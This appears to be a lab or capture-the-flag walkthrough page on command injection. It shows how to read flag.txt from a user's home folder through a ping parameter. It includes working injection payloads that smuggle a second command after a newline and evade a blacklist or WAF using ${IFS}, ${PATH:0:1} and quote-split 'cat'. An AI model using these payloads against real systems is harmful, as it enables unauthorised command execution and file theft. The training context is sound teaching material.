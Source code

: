 ```yaml
---
description: >-
  Use what you learned in this section find the content of flag.txt in the home
  folder of the user you previously found.
---
```


# Bypassing Blacklisted Commands

We continue to build up on our command in order to bypass the blacklist.&#x20;

First lets list the files inside the user 1nj3c70r. We add `${PATH:0:1}1nj3c70r` to our command:

```bash
ip=127.0.0.1%0a{ls,-la}${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see the `flag.txt` is indeed in the home folder.

Now all we have to to is retrieve the content from the file. To this we need to use the `cat` command.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Since some basic commands are in the blacklist, if we just insert cat we won't be able to use it in order the see the content of the `flag.txt`.

That's why we have to "break" the command with double-quotes in order to by pass the WAF:

{% code overflow="wrap" %}
```bash
ip=127.0.0.1%0ac"a"t${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
{% endcode %}

The command will be interpreted like this:

```bash
ping -c 1 127.0.0.1; cat /home/1nj3c70r/flag.txt
```

